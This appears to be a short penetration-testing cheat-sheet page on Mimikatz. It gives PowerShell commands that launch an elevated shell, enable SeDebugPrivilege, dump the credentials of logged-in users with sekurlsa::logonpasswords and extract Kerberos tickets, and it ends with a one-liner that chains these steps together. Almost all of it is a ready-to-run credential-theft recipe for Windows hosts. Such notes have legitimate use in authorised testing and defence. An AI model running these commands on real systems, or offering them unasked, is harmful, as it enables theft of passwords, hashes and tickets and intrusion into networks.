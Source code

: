 # Mimikatz

{% hint style="danger" %}
need to be a  local administrator
{% endhint %}

Run as administrator in powershell

```powershell
Start-Process powershell.exe -Verb RunAs
```

### Start mimikatz:

```powershell
.\mimikatz.exe
```

Enable SeDebugPrivilege:

```powershell
privilege::debug
```

### Dump hashes for logged in users

```powershell
sekurlsa::logonpasswords
```

### Extract kerberos tickets

```powershell
sekurlsa::tickets
```



{% code overflow="wrap" %}
```
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```
{% endcode %}
